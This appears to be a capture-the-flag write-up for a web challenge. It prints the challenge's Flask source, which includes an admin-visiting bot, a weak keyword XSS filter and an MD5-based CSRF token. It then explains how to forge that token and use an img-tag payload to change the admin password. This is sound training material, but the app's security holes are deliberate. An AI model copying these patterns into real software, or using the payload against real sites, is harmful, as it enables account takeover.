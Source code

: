 # solution

It has the similiar code with some challenges i had done.

```
def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    service = Service(executable_path="/chromedriver")
    options = webdriver.ChromeOptions()
    try:
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/login")
        driver.add_cookie(cookie)
        driver.find_element(by=By.NAME, value="username").send_keys("admin")
        driver.find_element(by=By.NAME, value="password").send_keys(users["admin"])
        driver.find_element(by=By.NAME, value="submit").click()
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not an admin"}')


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        if not check_csrf(param):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("user not found");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(8).hex()
            session_storage[session_id] = username
            token_storage[session_id] = md5((username + request.remote_addr).encode()).hexdigest()
            resp.set_cookie('sessionid', session_id)
            return resp
        return '<script>alert("wrong password");history.go(-1);</script>'


@app.route("/change_password")
def change_password():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
        csrf_token = token_storage[session_id]
    except KeyError:
        return render_template('index.html', text='please login')
    pw = request.args.get("pw", None)
    if pw == None:
        return render_template('change_password.html', csrf_token=csrf_token)
    else:
        if csrf_token != request.args.get("csrftoken", ""):
            return '<script>alert("wrong csrf token");history.go(-1);</script>'
        users[username] = pw
        return '<script>alert("Done");history.go(-1);</script>'
```

You should understand this code, i just summarise what you need to do or path of solving.

1. See that can use img tag to bypass filter.
2. Idea is put an payload to **/flag**, server then goes to read_url and login as admin. We will take advantage of that to change the admin's password to the password's we control.
3. But the problem that we need 2 parameters when **/change_password**
   ![alt text](image.png)<br>
   pw={sth that we control} but about csrftoken, how we can generate a valid one.
4. look at how csrftoken is made. **token_storage[session_id] = md5((username + request.remote_addr).encode()).hexdigest()**
5. Look like we just need username and addr to build a csrftoken. I dont know much a about hash or cryption so i used chatgpt :().

   ```
   import hashlib

   username = "admin"
   addr = "127.0.0.1"

   session_id = "example_session_id"

   token = hashlib.md5((username + addr).encode()).hexdigest()

   print(token)
   ```

6. run that code and you get a csrftoken. Let finish our payload

   ```
   <img src='/change_password?pw=admin&csrftoken=7505b9c72ab4aa94b1a4ed7b207b67fb'>
   ```

7. send it and login as admin.
   ![alt text](image-1.png)<br>
